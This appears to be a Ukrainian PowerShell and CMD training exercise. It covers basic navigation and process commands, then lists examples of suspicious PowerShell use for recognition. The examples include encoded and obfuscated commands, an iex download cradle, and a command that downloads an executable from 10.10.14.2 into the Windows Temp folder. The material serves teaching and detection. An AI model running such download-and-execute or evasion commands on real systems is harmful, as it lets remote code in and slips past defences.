 ### Виконайте завдання:
1. Основними командами є: cd, dir, cls, вони ж є однаковими для CMD та PowerShell. Спробуйте відкрити якусь папку через CMD та PowerShell. Звикніть просуватись по файловій системі через команди.
2. Запустіть Chrome через команду, спершу з помилкою, не використовуючи .\ перед exe-файлом - `C:\Program Files (x86)\Google\Chrome\Application\ .\chrome.exe`. Навчіться запускати програми через командну строку.
3. Запустити калькулятор, `calc`.
4. PowerShell використовує форму дія-сутність (Verb-Noun) для назви своїх командлетів. Наприклад, `Get-Command`.
5. `Get-ExecutionPolicy` - перевірити політику контролю виконання команд та скриптів.
6. `Set-ExecutionPolicy` - ExecutionPolicy RemoteSigned
7. `Get-Command` - переглянути всі доступні команди.
8. `Get-process` - переглянути запущені процеси
9. Фільтрування за ім'ям (taskmgr): `get-process -Name Taskmgr`
10. Фільтрування за ID: `get-process -Id <номер-процесу>`
11. Показати, що можна зробити з об'єктом - `Get-Member`
12. Фільтрування методів - `Get-Process | Get-Member -MemberType Method`
13. Використати метод kill() для процесу, спробувати знову знайти його за id чи іменем `(get-process -Id <id>).kill()`

Додаткова інформація: [Команди Powershell](https://learn.microsoft.com/en-us/powershell/scripting/powershell-commands?view=powershell-7.3)

## 7. Приклади шкідливих та підозрілих команд Powershell
1. Закодовані команди, містять в собі encoded, en, enc, та подібні параметри:
```
powershell.exe -encod VwByAGkAdABlAC0ASABvAHMAdAAgACIAdAB3AGUAZQB0ACwAIAB0AHcAZQBlAHQAIQAiAA==
```
2. Використання base64 для закодовування шкідливих команд:
```
Invoke-Expression -Command ([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('VwByAGkAdABlAC0ASABvAHMAdAAgACIAdAB3AGUAZQB0ACwAIAB0AHcAZQBlAHQAIQAiAA==')))
```
3. Використання спеціальних символів (^, +, $ та %) щоб розбити команду на текстові блоки і оминати примітивні правила детектування:
```
& ([ScriptBlock]::Create("Write-Host '$("{0}{1}{2}{2}{0}" -f 't','w','e'), $([Char] 116)$([Char] 119)$("$(([Char] 0x65))" * 2)t'"))`
```
4. Використання параметрів -nop, -noni. Команда виконується без інтерактивного вікна.
5. Використання invoke-expression чи iex щоб запустити команди, що завантажуються з віддаленого ресурсу
```
powershell.exe -nop iex "\"Write-Host `\"$((New-Object Net.WebClient).DownloadString('https://user.github.com/repo/blabla/badcode.txt'))`\"\""
```
6. Скачування файлу з віддаленого ресурсу з downloadfile:
```
(New-Object Net.WebClient).DownloadFile("http://10.10.14.2:80/taskkill.exe","C:\Windows\Temp\taskkill.exe")
```

[Більше інформації про шкідливе використання Powershell](https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters)
